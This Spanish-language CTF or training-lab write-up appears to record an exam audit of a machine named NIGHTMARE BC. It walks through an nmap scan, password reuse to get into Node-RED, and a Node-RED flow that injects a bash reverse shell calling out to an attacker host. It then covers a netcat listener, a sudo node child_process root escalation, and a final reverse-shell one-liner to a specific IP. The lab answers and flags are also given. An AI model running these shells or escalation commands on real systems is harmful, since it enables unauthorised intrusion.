










*1 / Noviembre / 2025 - MF0488*
# Examen práctico 3 - NIGHTMARE BC (Nebula[.]io)
---

<h4 style="text-align: justify">
La empresa Nebula[.]io sospecha que la máquina <i>NIGHTMARE BC</i> ha sido comprometida por un actor malicioso y nos solicita realizar una auditoría con el objetivo de descubrir posibles vectores de entrada a la máquina.</h4>

## Contenido

- [1. ](#)  
- [2. ](#)  
- [3. ](#)  
- [4. ](#)  

---

## Herramientas y metodología

Antes de ponerse manos a la obra, es importante actualizar las herramientas necesarias y definir de qué manera se va a trabajar (metodología).

En esta auditoría, se hará uso de distintas herramientas desde la perspectiva **Blue team** para realizar reconocimiento pasivo. Se omite el análisis y resolución en detalle, pero se incluyen para registro: `VirusTotal`, `Shodan`, `Censys`,`cert.sh`, OSINT en general (reconocimiento de dominios, registros públicos y reputación de artefactos).

Por otro lado, se prestará mas atención en este writeup a la parte de auditoría desde la perspectiva **Red Team**. Se hará uso de las siguientes herramientas: `nmap`, `netcat (nc)`, `xxd` (hexdump), `base64` y `gobuster`.

**Metodología:** Descubrimiento → enumeración activa → análisis de vulnerabilidades → explotación controlada → escalada de privilegios → recolección de evidencias.

---

## 1) Reconocimiento - Escaneo de puertos (Nmap)

Se realiza un escaneo completo y enumeración de versiones básico mediante el uso de nmap:

```bash
$ sudo nmap -vv -sV -p- 10.10.xxx.xx 
```



Y nos reporta de vuelta el siguiente resultado:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -vv -sV -p- 10.10.xxx.xx          
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-06 01:45 CET
NSE: Loaded 47 scripts for scanning.
Initiating Ping Scan at 01:45
Scanning 10.10.152.52 [4 ports]
Completed Ping Scan at 01:45, 0.07s elapsed (1 total hosts)
ompleted NSE at 01:46, 0.18s elapsed
Nmap scan report for 10.10.152.52
Host is up, received reset ttl 63 (0.043s latency).
Scanned at 2025-11-06 01:45:40 CET for 33s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
1880/tcp open  http    syn-ack ttl 63 Node.js Express framework
3030/tcp open  http    syn-ack ttl 63 Node.js (Express middleware)
4040/tcp open  http    syn-ack ttl 63 Node.js (Express middleware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el momento de explorar los puertos 3030 y 4040, se completan los retos del SIEM y del Firewall, lo cuales revelan las siguientes flags:

**Firewall**: D.Finkelstein
**SIEM**: Mr.0oG13_B00g13

> Nota: En este escenario se comprende que la resolución de los retos (Tasks 4 y 5) nos facilita las credenciales para poder seguir progresando en la auditoría. En el caso que el escenario fuera real, se podría buscar como alternativa credenciales filtradas o expuestas, configuraciones incorrectas claves de acceso por defecto o incluso errores de push con credenciales en repositorios de Nebula[.]io en Github o Gitlab.


## 2) Acceso inicial - SSH y Node Red

<p style="text-align: justify">Como bien nos reportó nmap, el servicio SSH se encuentra abierto en el puerto por defecto (22); Pero hay otro puerto interesante que nos puede servir como vector de entrada: Servicio web (HTTP) de Node.js abierto en el puerto 1880.</p>

<p style="text-align: justify">Al acceder al puerto anteriormente mencionado, nos encontramos con Node-RED, investigando por internet nos damos cuenta que Node-Red es una herramienta de desarrollo de flujo para diseñar e integrar automatizaciones y control sobre dispositivos I0T.</p>

<p style="text-align: justify">El único problema que nos encontramos es que para acceder a apartado de `editor de workflows` necesitamos autenticarnos. Por suerte disponemos de unas credenciales que son válidas para SSH, pero como la gente tiene la mania fea de reutilizar contraseñas, procedemos a porbar si nos permite el ingreso al editor.</p>


¡Bingo! Tenemos acceso al editor de Node Red.

- Ahora que ya tenemos acceso la parte interna de Node-Red, vamos a intentar ubicar la versión instalada. Vemos que es la **v.3.0.2**.



<p style="text-align: justify">Una búsqueda rápida en Internet nos revela que a fecha 7 de Julio de 2025 se le asigna una vulnerabilidad crítica <b>(10.0)</b> con el siguiente identificador: <b>CVE-2025-41656</b>. La vulnerabilidad en cuestión permite a un atacante remoto ejecutar código remoto con privilegios elevados debido a una mala configuración por defecto de Node-RED.</p>



## 3) Explotación - Reverse Shell

<p style="text-align: justify">Ahora que tenemos conocimiento sobre la vulnerabilidad crítica que afecta a Node-Red, vamos a intentar explotarla mediante la creación de un flujo simple. Para ello necesitamos dos componentes del menú de nodos: Un ejecutor y un intérprete.

- Ejecutor: se encarga de iniciar el flujo una vez desplegado por Node-Red.
- Intérprete: se encarga de entender la pieza de código que se le indica para realizar las acciones que se le indique. En este caso lo usaremos para inyectar un payload simple de reverse shell.</P>

```bash 
/bin/bash -i >& /dev/tcp/ip_red_team/puerto_escucha 0>&1
```
>Nota: El ejecutor debe estar conectado con el intérprete para que se lleve a cabo la acción.



<p style="text-align: justify">Ahora que conocemos los componentes necesarios para abrir una reverse shell, procedemos a iniciar netcat en modo escucha en el puerto 7777.</p>

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 7777
``` 

<p style="text-align: justify">Mientras netcat se encuentra a la espera de recibir una comunicación desde Node-RED, procedemos a desplegar el fujo e iniciarlo mediante el botón del ejecutor:</p>



<p style="text-align: justify">Si todo ha ido bien, deberíamos tener la shell /bin/bash operativa en nuestro netcat e ingresado dentro de la máquina:</p>



## 3) Evidencias - Recolección de flags

Ahora que nos encontramos dentro de la máquina vamos a explorar un poco. En el directorio del usuario `dev` nos encontramos con la primera flag: `user.txt`.

Al mostrar el contenido del archivo `user.txt` vemos que el contenido se encuentra codificado en hexadecimal.</p>

`27 3b 2d 2d 68 61 76 65 20 69 20 62 65 65 6e 20 70 77 6e 65 64 3f`

- Así que mediante la herramienta hexdump `(xxd)` procedemos a descodificar `(flag -d)`:



El resultado que nos devuelve hexdump es el siguiente:`';--have i been pwned?`.

Vamos a por la siguiente flag! Procedemos a listar los directorios de usuario que hay creados mediante el comando `ls -la /home`.

```bash
dev@tnightmarebc:~$ ls -la /home
ls -la /home
total 20
drwxr-xr-x  5 root         root         4096 oct 31 16:38 .
drwxr-xr-x 18 root         root         4096 may 16  2023 ..
drwx------  5 dev          dev          4096 oct 31 16:15 dev
drwx------  3 dfinkelstein dfinkelstein 4096 oct 31 17:27 dfinkelstein
drwx------  4 nightmare    nightmare    4096 oct 31 16:53 nightmare
```
Podemos observar que a parte del usuario `dev`, existen dos mas: `dfinkelstein` y `nightmare`.

Si intentamos intentar acceder a los directorios de los otros usuarios, al carecer de permisos se nos denegará la acción.

```bash
dev@tnightmarebc:~$ cd /home/dfinkelstein
cd /home/dfinkelstein
bash: cd: /home/dfinkelstein: Permiso denegado
```

La única salida viable: escalada de privilegios. 

#### Escalada hacia root

Conociendo que Node.js está instalado en el sistema y tenemos capacidad de ejecutar comandos con **sudo**, podemos aprovechar el módulo `child_process` de Node.js para generar un proceso hijo que ejecute una shell bash con privilegios elevados (root).

```bash
sudo node -e 'require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})'
```


De esta manera cuando el proceso "spawn" crea un proceso hijo de bash, este hereda los mismos privilegios, dándonos así una shell de root interactiva.




/bin/bash -c "sudo node -e 'require(\"child_process\").execSync(\"/bin/bash -c \\\"bash -i >& /dev/tcp/10.21.225.157/7777 0>&1\\\"\", {stdio: [0, 1, 2]})'"
